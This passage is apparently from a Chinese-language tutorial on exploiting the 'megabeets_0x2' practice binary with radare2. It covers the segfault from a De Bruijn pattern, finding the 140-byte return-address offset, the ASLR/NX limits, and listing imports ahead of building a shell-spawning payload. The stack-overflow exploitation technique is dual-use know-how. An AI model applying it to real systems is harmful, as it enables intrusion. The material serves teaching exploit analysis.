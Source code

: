 执行二进制文件并使用 rarun2 将 pattern.txt 的内容传递给标准输入，并收到 SIGSEV 11。

------

​	A signal is an asynchronous（异步） notification sent to a process or to a specific thread within the same process in order to notify it of an event that occurred.

​	The SIGSEGV (11) signal is sent to a process when it makes an invalid virtual memory reference, or segmentation fault, i.e.（换句话说，即） when it performs a segmentation violation.

------

提示指向 0x41417641， 这是代表“AvAA”（asciim little-endian）的无效地址，是我们模式中的一个片段。 radare允许我们在 De Bruijn 模式中找到给定值的偏移量。

```
[0x41417641]> wop?
Usage: wop[DO]   len @ addr | value
| wopD len [@ addr]   write a De Bruijn Pattern of length 'len' at address 'addr'
| wopD* len [@ addr]  show wx command that creates a debruijn pattern of a specific length
| wopO value          finds the given value into a De Bruijn Pattern at current offset
[0x41417641]> wopO `dr eip`
140
```

现在可以看到返回地址的覆盖发生在 140 字节之后。根据这个构造漏洞

## 3.Creating the exploit

​		我们的目标是在正在运行的系统上生成一个 shell。为了了解我们能做什么，我们首先需要了解我们不能做什么。

- 受 ASLR 保护，因此我们无法预测 libc 将在内存中加载的地址。所以不能用 ret2libc。
- 受 NX 保护，这意味着堆栈不可执行，因此我们不能只是将 shellcode 放在堆栈上并跳转到它。

​		尽管这些保护措施使我们无法使用一些利用技术，但它们也不能幸免，我们可以轻松地制作一个有效负载来绕过它们。 为了组装我们的漏洞利用，我们需要更仔细地查看二进制文件提供给我们的库和函数。

让我们再次以调试模式打开二进制文件，看看它使用的库和函数。 从库开始：

`il `代表信息库，展示了二进制文件使用的库。 在我们的例子中只有一个库—— libc。

通过执行`ii `来看看导入的函数，它代表—— **I**nformation **I**mports。 我们还可以将 q 添加到我们的命令中以打印不太详细的输出：

```
$ r2 -d megabeets_0x2 
INFO: glibc.fc_offset = 0x00148
 -- See you at the defcon CTF
 
[0xf7fba120]> il
[Linked libraries]
libc.so.6

1 library

[0xf7fba120]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x08048370 GLOBAL FUNC       strcmp
2   0x08048380 GLOBAL FUNC       strcpy
3   0x08048390 GLOBAL FUNC       puts
4   0x000003c0 WEAK   NOTYPE     __gmon_start__
5   0x080483a0 GLOBAL FUNC       __libc_start_main
6   0x080483b0 GLOBAL FUNC       __isoc99_scanf

[0xf7fba120]> iiq
strcmp
strcpy
puts
__gmon_start__
```